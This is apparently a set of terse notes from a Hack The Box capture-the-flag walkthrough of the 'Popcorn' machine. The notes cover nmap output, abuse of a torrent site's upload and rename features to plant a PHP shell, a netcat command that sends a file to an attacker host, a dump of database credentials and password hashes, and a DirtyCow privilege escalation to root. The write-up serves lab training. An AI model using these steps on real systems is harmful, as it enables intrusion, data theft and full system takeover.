22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



everything after /test.php is phpinfo

Hostname:Port 	popcorn.hackthebox.gr:80 

sudo bash -c 'echo "10.10.10.6 popcorn.hackthebox.gr" >> /etc/hosts'





create account and log in


wget https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-10.8.0-amd64-netinst.iso.torrent






http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&maxw=96

popcorn.hackthebox.gr/rename/?filename=./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&newfilename=./upload/rev.php

Warning: rename(./upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif,./upload/rev.php) [function.rename]: No such file or directory in /var/www/rename/index.php on line 4



GET /rename/?filename=/var/www/torrent/upload/4090c3c2a394a49974dfbbf2ce7ad0db3cdeddd7.gif&newfilename=/var/www/torrent/upload/rev.php HTTP/1.1



nc 10.10.14.9 4444 < torrenthoster.zip

Admin username: admin; password : admin12

//Edit This For TORRENT HOSTER Database                                                                                                                     
  //database configuration                                                                                                                                    
  $CFG->host = "localhost";                                                                                                                                   
  $CFG->dbName = "torrenthoster";       //db name                                                                                                             
  $CFG->dbUserName = "torrent";    //db username                                                                                                              
  $CFG->dbPassword = "SuperSecret!!";   //db password                                                                                                         
                                                        
mysql> select * from users;
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                   | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com    | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | marios   | fa6ac41f0ec717d1283e1a73e91fca5f | user      | jarjoramarios@gmail.com | 2021-02-12 13:46:57 | 2021-02-12 13:46:57 | 
|  6 | hacker   | d6a6bc0db10694a2d90e3a69648f3a03 | user      | hacker@hacker.com       | 2021-02-12 17:53:53 | 2021-02-12 17:53:53 | 
+----+----------+----------------------------------+-----------+-------------------------+---------------------+---------------------+
3 rows in set (0.00 sec)



/var/www/torrent/database/th_database.sql

"Ubuntu 9.10



gcc cowroot.c -o cowroot -pthread

gcc -pthread dirty.c -o dirty -lcrypt

www-data@popcorn:/dev/shm$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7844000

id
^C
www-data@popcorn:/dev/shm$ su - firefart
Password: 
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
